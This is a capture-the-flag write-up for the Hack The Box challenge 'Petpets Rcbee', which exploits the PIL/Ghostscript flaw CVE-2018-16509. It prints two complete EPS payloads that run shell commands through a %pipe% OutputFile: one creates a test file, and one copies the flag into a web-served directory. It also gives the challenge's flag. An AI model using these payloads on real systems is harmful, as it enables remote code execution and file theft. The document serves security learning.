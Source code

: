 # Petpets Rcbee

I really enjoyed this challenge. At first I assumed it would be php injection, which i've brefely used before. But after some googling, I was lead to: https://github.com/vulhub/vulhub/tree/master/python/PIL-CVE-2018-16509. This vulnerability is in the PIL python module and lets us RCE when a file is loaded. Code isn't executed when the image is opened, but functions such as `scale`, `trim`, etc will execute the command

The payload the writeup gives is:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

Using the Docker I ran it as a POC and got given the error: `touch: cannot touch '/app/static/petpetpets/got_rce': No such file or directory` showing it works and the website is vulnerable!

Changing the payload script to the following gives us the flag:

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > /app/application/static/petpets/got_rce) currentdevice putdeviceprops
```

This executes behind the scenes and navigating to `http://IP:PORT/static/petpets/got_rce` will give us the file with the flag in!

Flag: `HTB{c0mfy_bzzzzz_rcb33s_v1b3s}`
